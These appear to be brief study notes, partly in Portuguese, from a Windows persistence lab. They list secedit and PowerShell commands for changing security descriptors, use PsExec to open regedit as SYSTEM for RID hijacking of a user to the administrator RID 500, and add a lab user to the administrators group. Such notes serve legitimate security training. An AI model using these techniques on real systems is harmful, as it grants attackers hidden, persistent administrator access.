

persistence

`secedit /export /cfg config.inf`

`secedit /import /cfg config.inf /db config.sdb`

`secedit /configure /db config.sdb /cfg config.inf`

`Set-PSSessionConfiguration -Name Microsoft.Powershell -showSecurityDescriptorUI`

site incrivel que mostra o security descriptor:

https://www.dnif.it/darc-notes/detecting-windows-security-descriptors-exploitation

```powershell
wmic useraccount get name,sid
```

da pra mudar o RID (500 admin, resto 1000) do usuario pelo regedit usando o PSexec, somente da pra acessar o SAM via SYSTEM e por isso o PsExec.

```powershell
PsExec64.exe -i -s regedit
```

&nbsp;

&nbsp;



<span style="color: #151c2b;">RID in hex (1010 = 0x3F2)</span>

<span style="color: #151c2b;"><span style="color: #151c2b;">(500 = 0x01F4), switching around the bytes (F401) (little endian)</span></span>

```shell-session
C:\> net localgroup administrators thmuser0 /add
```